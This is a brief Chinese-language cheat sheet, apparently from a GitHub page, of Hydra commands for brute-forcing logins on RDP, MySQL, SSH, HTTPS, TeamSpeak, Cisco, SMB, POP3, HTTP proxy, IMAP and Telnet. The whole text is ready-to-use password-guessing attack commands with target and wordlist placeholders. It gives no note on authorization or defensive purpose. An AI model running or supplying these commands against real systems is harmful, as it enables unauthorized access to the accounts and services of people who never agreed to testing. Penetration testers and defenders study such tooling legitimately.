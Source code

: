 ### hydra

破解rdp(3389)：

`hydra -l administrator -P password.txt -V IP rdp`

破解mysql：

`hydra ip -L 用户名 -P pass.txt -V mysql`

破解ssh：

`hydra -L user.txt -P password.txt -e ns -vV IP ssh`

破解https：

`hydra -m /index.php -l muts -P pass.txt IP https`

破解teamspeak：

`hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak`

破解cisco：

`hydra -P pass.txt IP cisco`

`hydra -m cloud -P pass.txt IP cisco-enable`

破解smb：

`hydra -l administrator -P pass.txt IP smb`

破解pop3：

`hydra -l muts -P pass.txt my.pop3.mail pop3`

破解http-proxy：

`hydra -l admin -P pass.txt http-proxy://IP`

破解imap：

`hydra -L user.txt -p imap://ip PLAIN`

`hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN`

破解telnet

`hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V`